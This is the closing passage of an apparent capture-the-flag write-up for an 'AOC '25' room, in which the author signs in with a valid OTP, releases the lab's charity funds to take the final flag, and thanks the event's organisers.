

After supplying our valid OTP to sign in we can release the charity funds to grab our final flag completing the box.



This marks the end of AOC ’25 which was very well put together. Great job to everyone involved with making the rooms/side quests. I hope this was helpful to anyone following along or stuck and happy hacking!
